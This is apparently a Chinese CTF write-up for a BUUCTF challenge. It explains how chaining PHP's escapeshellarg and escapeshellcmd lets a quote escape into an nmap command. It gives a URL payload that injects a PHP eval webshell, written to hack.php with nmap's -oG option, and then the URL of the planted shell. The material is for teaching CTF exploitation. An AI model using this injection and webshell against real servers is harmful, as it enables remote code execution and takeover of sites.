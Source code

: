 
```php
http://9fc4eff7-b643-407c-8d36-9264a2031c04.node4.buuoj.cn:81/?host=%27%20%3C?php%20@eval($_POST[%22hack%22]);?%3E%20-oG%20hack.php%20%27
```



```php
http://9fc4eff7-b643-407c-8d36-9264a2031c04.node4.buuoj.cn:81/a443996fcc9701a67983355732d1cf07/hack.php
```



 [PHP: escapeshellcmd - Manual](https://www.php.net/manual/zh/function.escapeshellcmd.php)

1.escapeshellarg()将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含exec(),system()执行运算符。

2.escapeshellcmd()对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到exec()或system()函数，或者执行操作符之前进行转义。反斜线（\）会在以下字符之前插入：&#;`|*?~<>^()[]{}$,\x0A和\xFF。'和"仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及%和!字符都会被空格代替。

例子：来自seebug
 1.传入的参数是：172.17.0.2’ -v -d a=1

2.经过escapeshellarg处理后变成了’172.17.0.2’’’ -v -d a=1’，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

```php
 '172.17.0.2'     \'      ' -v -d a=1'
 三部分，中间的就是我们原来加的那个'（作用我们在下面会体现出来），
 然后用单引号括起来。
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

3.经过escapeshellcmd处理后变成’172.17.0.2’\’’ -v -d a=1’，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义

```php
'172.17.0.2'     \\     ''      -v -d a=1\'
四部分，第二部分的\（也就是上面我们所加的单引号被escapeshellarg转义所多出来）
被转义变为\\,那么在最后执行的时候会解释为\,然后上面我们加的那个'会和后面一个'组合为
一个空字符也就是''
```



4.最后执行的命令是curl ‘172.17.0.2’\’’ -v -d a=1’，由于中间的\被解释为\而不再是转义字符，所以后面的’没有被转义，与再后面的’配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1’，即向172.17.0.2\发起请求，POST 数据为a=1’。

```php
总结来说我们要在webshell前加'是为了提供一个\,功能是向\前的ip发起请求，这样我们就能
对此ip进行shell。

在本题中原码的意思是我们输入一个ip然后扫描，通过上面的两个函数来进行规则过滤转义，
我们的输入会被单引号引起来，但因上面的漏洞所以我们可以用'逃脱这个引号的束缚
```



```php
并且在nmap命令中 有一个参数-oG可以实现将命令和结果写到文件，这样我们就可以通过文件包含来进行命令执行，或蚁剑连接。
```
